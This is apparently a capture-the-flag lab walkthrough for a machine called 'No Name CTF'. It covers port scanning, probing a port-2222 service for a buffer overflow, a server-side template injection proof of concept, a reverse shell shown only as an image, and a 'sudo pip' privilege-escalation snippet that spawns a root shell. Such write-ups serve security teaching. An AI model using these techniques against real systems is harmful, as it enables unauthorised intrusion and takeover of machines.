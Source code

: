 # No Name CTF

## Enumeration

As always, I started the Enumeration process by running Rustscan against the target

```
rustscan -a $machine_IP -- -A -sV -sC -T4 -v

-sC - Script Scan
-sV - Version Scan
-T4 - Timing Template
-A  - Aggresive Scan Options
-vv - Verbosity level

.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open $machine_IP:22
Open $machine_IP:80
Open $machine_IP:2222
Open $machine_IP:9090
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

PORT     STATE SERVICE       REASON         VERSION
22/tcp   open  ssh           syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
80/tcp   open  http          syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  EtherNetIP-1? syn-ack ttl 61
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, NULL, SSLSessionReq, TerminalServerCookie: 
|     Welcome to the NoNameCTF!
|     Choose an action:
|     regiser: 1
|     login: 2
|     get_secret_directory: 3
|     store_your_buffer: 4
|   GetRequest, HTTPOptions, Help, RTSPRequest: 
|     Welcome to the NoNameCTF!
|     Choose an action:
|     regiser: 1
|     login: 2
|     get_secret_directory: 3
|     store_your_buffer: 4
|     Wrong option
|_    Good bye
9090/tcp open  http          syn-ack ttl 61 Tornado httpd 6.0.3
|_http-title: Site doesn't have a title (text/plain).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: TornadoServer/6.0.3
```

## Port 2222

I was able to connect into the target through telnet on port 2222

```
telnet 10.10.103.121 2222
Trying 10.10.103.121...
Connected to 10.10.103.121.
Welcome to the NoNameCTF!
Choose an action:
> regiser: 1
> login: 2
> get_secret_directory: 3
> store_your_buffer: 4

Enter your buffer:test123 
Flag saved!
Choose an action:
> regiser: 1
> login: 2
> get_secret_directory: 3
> store_your_buffer: 4
3
My secret in the port 9090 is: test123
```
Passing through legitimate traffic provides me with additional insight into how this program works. Upon creating an account, I enter a buffer which is then saved. This indicates the potential for a buffer overflow attack. I then printed 1000 A's in an attempt to find the break point

```
python -c "print('A' * 1000)"                                                                                             

AAAAAAAAA...
```

In a more efficient fashion, it is possible to use the `Metasploit Framework Pattern Create` script to create random strings

![pattern-create](Images/buffer-pattern-create.png)

Once I input this string to the program and saved this entry, it prompted me for a secret directory.

![directory](Images/secret-directory.png)

Navigating to that directory on port 9090 provided a secret directory

![secret-directory](Images/directory-browser.png)

Verifying the source code showed an input parameter being passed

![source-code](Images/sourcecode.png)

![hackme=hello](Images/sourcecodehello.png)

This looks like the server is running a Server Side Template before returning content. 

I then ran a PoC to see if it is indeed vulnerable. 

```
http://10.10.103.121:9090/40b5dffec4e39b7a3e9d261d2fc4a038/?hackme={{2+2}}/?hackme={{2+2}} - triggers the template engine
```

![poc](Images/pyserver-error.png)

This proves that it is vulnerable to [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection). I was then able to verify that mathematical functions work. This was provided by [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

![math](Images/ssti-poc.png)

Hacktricks also recommends using [Tplmap](https://github.com/epinna/tplmap) which is similar to SQLmap but does code injection detection and exploitation for server-side template injection. 

![tplmap](Images/tplmap.png)

Meanwhile, my netcat listener was waiting on port 9999 which picked up a shell

![revshell](Images/rev-shell.png)

## Privilege Escalation

In comparison to gaining the initial foothold, Privilege Escalation was a relatively straightforward process. I ran `sudo -l` to identify what this user could run to get root privileges.

![sudo -l](Images/sudo-l.png)

This command indicates that this user can run pip as root. According to the GTFO bins page, there is a way to privesc using `sudo pip`

```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```

![root.txt](Images/root.png)